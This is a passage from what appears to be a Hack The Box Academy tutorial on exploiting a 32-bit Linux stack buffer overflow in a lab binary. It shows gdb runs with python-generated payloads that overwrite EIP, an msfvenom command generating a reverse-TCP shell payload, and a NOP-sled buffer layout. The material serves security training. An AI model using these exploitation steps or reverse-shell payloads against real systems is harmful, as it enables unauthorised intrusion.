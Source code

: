 ![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

If we now use precisely this number of bytes for our "`U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "`\x66`" and execute it to ensure we control the `EIP`.

```
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our "`\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.

## Determine Length for Shellcode
```bash
Pietra@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We now know that our payload will be about 68 bytes. However we should try to take a larger range in case the shellcode increases.

We can insert some **no operation instruction** (**NOPS**) before our shellcode begins so it can be executed cleanly. We need:

1. Total of 1040 bytes to get to the **EIP**.
2. Additional **100 bytes** of **NOPS**.
3. **150 bytes** for our **shellcode**.

```bash
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4'
```

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
